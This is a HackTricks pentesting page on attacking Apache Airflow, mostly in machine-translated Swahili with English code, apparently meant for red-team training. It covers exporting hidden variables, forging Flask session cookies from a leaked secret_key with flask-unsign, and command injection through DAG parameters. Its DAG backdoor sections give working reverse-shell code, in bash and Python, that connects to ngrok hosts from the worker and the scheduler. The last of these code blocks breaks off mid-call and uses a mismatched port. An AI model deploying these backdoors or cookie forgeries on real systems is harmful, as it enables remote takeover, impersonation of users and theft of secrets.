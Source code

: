 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuandaa na kupanga mipango ya data au kazi**. Neno "kuandaa" katika muktadha wa mipango ya data linaashiria mchakato wa kupanga, kuratibu, na kusimamia kazi ngumu za data zinazotokana na vyanzo mbalimbali. Lengo kuu la mipango hii ya data iliyopangwa ni kutoa seti za data zilizoshughulikiwa na zinazoweza kutumika. Seti hizi za data zinatumika sana na maelfu ya programu, ikiwa ni pamoja na lakini sio tu zana za akili ya biashara, sayansi ya data na mifano ya kujifunza mashine, ambazo zote ni msingi wa utendaji wa programu za big data.

Kwa msingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa msimbo wakati kitu** (tukio, cron) **kinatokea**.

### Local Lab

#### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuanzisha mazingira kamili ya docker ya apache airflow. (Ikiwa uko kwenye MacOS hakikisha unatoa angalau 6GB ya RAM kwa VM ya docker).

#### Minikube

Njia rahisi moja ya **kufanya kazi apache airflow** ni kuikimbia **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow inaweza kuhifadhi **taarifa nyeti** katika usanidi wake au unaweza kupata usanidi dhaifu ulio katika mahali:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ikiwa una **ufikiaji wa console ya wavuti** unaweza kuwa na uwezo wa kufikia baadhi au yote ya taarifa zifuatazo:

* **Variables** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Connections** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Fikia kwenye `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodha ya **watumiaji & majukumu**
* **Code ya kila DAG** (ambayo inaweza kuwa na taarifa za kuvutia)

#### Retrieve Variables Values

Variables zinaweza kuhifadhiwa katika Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzifikia kwenye GUI katika `http://<airflow>/variable/list/`.\
Airflow kwa kawaida itaonyesha thamani ya variable kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya variables** ambazo **thamani** zitakuwa zinaonekana kama **asterisks** katika **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Hata hivyo, hizi **thamani** bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kuwa na ufikiaji wa DB), **kutekeleza DAG** isiyo na mipaka, **API** inayofikia mwisho wa variables (API inahitaji kuwezeshwa), na **hata GUI yenyewe!**\
Ili kufikia hizo thamani kutoka kwenye GUI chagua tu **variables** unazotaka kufikia na **bonyeza kwenye Actions -> Export**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **uchujaji wa utafutaji** hadi upate:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ikiwa usanidi wa **`expose_config`** umewekwa kuwa **True**, kutoka **kwa jukumu la Mtumiaji** na **juu** wanaweza **kusoma** **usanidi kwenye wavuti**. Katika usanidi huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii halali wanaweza **kuunda keki yake iliyosainiwa ili kujifanya kuwa akaunti nyingine yoyote ya mtumiaji**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE katika Airflow worker)

Ikiwa una **ufikiaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **reverse shell.**\
Kumbuka kwamba reverse shell hii itatekelezwa ndani ya **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE katika Airflow scheduler)

Ikiwa utaweka kitu **kufanywa katika mzizi wa msimbo**, wakati wa kuandika hii, kitafanywa **na scheduler** baada ya sekunde chache baada ya kukiweka ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Uundaji wa DAG

Ikiwa utafanikiwa **kushambulia mashine ndani ya klasta ya DAG**, unaweza kuunda **scripts za DAG** mpya katika folda ya `dags/` na zitakuwa **zinakopiwa katika mashine nyingine** ndani ya klasta ya DAG.

#### Uingiliaji wa Kode ya DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake.\
Hivyo, ikiwa DAG haijakodishwa vizuri inaweza kuwa **na udhaifu wa Uingiliaji wa Amri.**\
Hivyo ndivyo ilivyotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua ili **kuanza kutafuta uingiliaji wa amri katika DAGs** ni kwamba **parameta** zinapatikana kwa kode **`dag_run.conf.get("param_name")`**.

Zaidi ya hayo, udhaifu sawa unaweza kutokea na **mabadiliko** (zingatia kwamba kwa ruhusa ya kutosha unaweza **kudhibiti thamani ya mabadiliko** katika GUI). Mabadiliko yanapatikana kwa:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya uingiliaji wa amri.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
